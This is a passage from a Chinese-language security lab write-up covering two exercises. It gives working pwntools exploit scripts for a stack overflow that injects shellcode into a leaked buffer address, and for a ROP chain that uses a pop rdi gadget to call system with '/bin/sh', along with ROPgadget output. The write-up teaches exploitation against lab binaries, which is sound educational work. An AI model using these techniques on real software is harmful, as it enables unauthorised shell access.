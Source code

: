 所以要覆盖到返回地址，需要填充 0x80 + 8（saved rbp）个字节，后面接返回地址。所以 exp：

```python
p.recvuntil(b": ")
buffer_addr = p.recvline().decode().strip()
info(f"buffer_addr = {buffer_addr}")
buffer_addr = p64(eval(buffer_addr))

shellcode = asm(shellcraft.sh())
payload = b""
payload += shellcode
payload += b"A" * (0x80 + 8 - len(shellcode))
payload += buffer_addr

info(f"payload = {payload}")
p.sendline(payload)
p.interactive()
```

本地测试：

![](/assets/images/sec/software/lab1/sbof2_local.png)

远程攻击：

![](/assets/images/sec/software/lab1/sbof2_remote.png)

## ROP
### rop2
检查保护，开启了 NX，由于程序是静态链接，链接的库中包含了 canary，但实际上程序本身并没有开启 canary，可以正常栈溢出。

程序提供了后门，不过执行的是 /bin/ls，同时也提供了一个静态的 /bin/sh 字符串。由于程序是静态链接，而且没有开启 PIE，所以直接构造 ROP 链直接调用程序内的 system 即可。

首先需要 0x50 + 8（saved rbp）个字节填充到返回地址，然后返回地址上接一条 pop rdi; ret 的指令地址，接下来布局 gstr 字符串的地址使之 pop 到 rdi，然后放一个 system 的地址来实现调用。通过 ROPgadget 找到 pop rdi; ret 指令：

```text
❯ ROPgadget --binary rop2 | grep "pop rdi ; ret"
0x0000000000459a98 : mov eax, 0xe8c78948 ; pop rdi ; ret
0x0000000000459a97 : mov r8d, 0xe8c78948 ; pop rdi ; ret
0x0000000000400716 : pop rdi ; ret
0x00000000004a9f9d : pop rdi ; ret 0x22
```

所以使用 0x400716 位置处的 gadget 即可：

```python
gstr_addr = elf.symbols["gstr"]
system = elf.symbols["system"]
pop_rdi = 0x400716

payload = b"A" * 0x58
payload += p64(pop_rdi)
payload += p64(gstr_addr)
payload += p64(system)
payload = payload + b"B" * (128 - len(payload))
print(f"payload = {payload}")

p.recvuntil(b"[*] Please input the length of data:\n")
p.sendline(b"128")
p.recvuntil(b"[*] Please input the data:\n")
p.send(payload)

p.interactive()
```
